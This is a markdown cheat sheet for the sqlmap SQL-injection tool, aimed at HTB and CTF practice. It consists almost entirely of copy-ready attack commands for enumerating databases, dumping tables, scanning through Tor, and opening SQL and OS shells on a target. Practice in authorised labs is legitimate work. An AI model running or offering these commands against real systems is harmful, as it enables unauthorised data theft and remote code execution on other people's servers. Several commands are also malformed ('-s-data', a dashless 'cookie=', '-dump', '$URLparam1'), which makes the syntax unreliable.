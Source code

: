 ```yaml
---
layout: memory
title: sqlmap Cheatsheet
---
```


Quick writeup and cheat sheet for [sqlmap](https://github.com/sqlmapproject/sqlmap) the automated SQLi and database takeover tool to speed up HTB/CTFs

- [Simple usage](#simple-usage)
- [Specify target DBMS to MySQL](#specify-target-dbms-to-mysql)
- [Using a proxy](#using-a-proxy)
- [Specify param1 to exploit](#specify-param1-to-exploit)
- [Use POST requests](#use-post-requests)
- [Access with authenticated session](#access-with-authenticated-session)
- [Basic authentication](#basic-authentication)
- [Specify parameter to exploit](#specify-parameter-to-exploit)
- [Specify parameter to exploit in 'nice' URIs](#specify-parameter-to-exploit-in-nice-uris)
- [Evaluating response strings](#evaluating-response-strings)
- [List databases](#list-databases)
- [List databases](#list-databases-1)
- [List tables of database target\_DB](#list-tables-of-database-target_db)
- [Dump table target\_Table of database target\_DB](#dump-table-target_table-of-database-target_db)
- [List columns of table target\_Table of database target\_DB](#list-columns-of-table-target_table-of-database-target_db)
- [Scan through TOR](#scan-through-tor)
- [Get SQL Shell](#get-sql-shell)
- [Get OS Shell](#get-os-shell)


<!-- cSpell:disable -->
### Simple usage
```bash
sqlmap -u "$URL"
```

### Specify target DBMS to MySQL
```bash
sqlmap -u "$URL" --dbms=mysql
```

### Using a proxy
```bash
sqlmap -u "$URL" --proxy=http://proxy_address:port
```

### Specify param1 to exploit
```bash
sqlmap -u "$URLparam1=value1&param2=value2" -p param1
```

### Use POST requests
```bash
sqlmap -u "http://target_server" --data=param1=value1&param2=value2
```

### Access with authenticated session
```bash
sqlmap -u "http://target_server" --data=param1=value1&param2=value2 -p param1 cookie='my_cookie_value'
```

### Basic authentication
```bash
sqlmap -u "http://target_server" -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password
```

### Specify parameter to exploit
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2
```

### Specify parameter to exploit in 'nice' URIs
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1
```

### Evaluating response strings
```bash
sqlmap -u "$URL" --string="This string if query is TRUE"
sqlmap -u "$URL" --not-string="This string if query is FALSE"
```

### List databases
```bash
sqlmap -u "$URL" --dbs
```

### List databases
```bash
sqlmap -u "$URL" --dbs
```

### List tables of database target_DB
```bash
sqlmap -u "$URL" -D target_DB --tables
```

### Dump table target_Table of database target_DB
```bash
sqlmap -u "$URL" -D target_DB -T target_Table -dump
```

### List columns of table target_Table of database target_DB
```bash
sqlmap -u "$URL" -D target_DB -T target_Table --columns
```

### Scan through TOR
```bash
sqlmap -u "$URL" --tor --tor-type=SOCKS5
```

### Get SQL Shell
```bash
sqlmap -u "$URL" --sql-shell
```

### Get OS Shell
```bash
sqlmap -u "$URL" --os-shell
```
<!-- cSpell:enable -->

